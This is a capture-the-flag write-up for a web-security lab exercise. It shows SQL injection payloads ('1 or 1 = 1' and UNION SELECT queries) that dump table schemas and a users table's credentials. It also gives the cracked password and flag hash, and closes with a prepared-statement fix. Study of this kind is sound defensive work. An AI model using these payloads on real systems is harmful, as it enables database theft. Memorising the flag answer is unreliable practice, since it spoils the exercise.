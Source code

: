 # EXPLANATION

In the members search page 

We can get all the DB users by searching "1 or 1 = 1"

By using UNION we can try to get more crucial information from **information_schema** which is a DB  used to store details of other databases on the server.

To get all the columns of the users table:
`1 or 1 = 1 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns`
The users table columns are : user_id, first_name, last_name, town, country, planet, Commentaire, countersign

After knowing the users table columns, the most important query is:
`1 or 1 = 1 UNION SELECT Commentaire,countersign FROM users`
It contains an instruction 

We decrypt the countersign and it gives "FortyTwo" after lowering all the chars and then encrypting using SH256 we get the flag:
===> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Utility

Get important infos from the DB. And understand the database construction.

# HOW TO AVOID ?

**Use prepared statements and parameterized queries** These are SQL statements that are sent to and parsed by the database server separately from any parameters. This way it is impossible for an attacker to inject malicious SQL.
Example using PDO:

    ```PHP
    $stmt = $pdo->prepare('SELECT * FROM users WHERE name = :name');

    $stmt->execute([ 'name' => $name ]);

    foreach ($stmt as $row) {
        // Do something with $row
    }
    ```
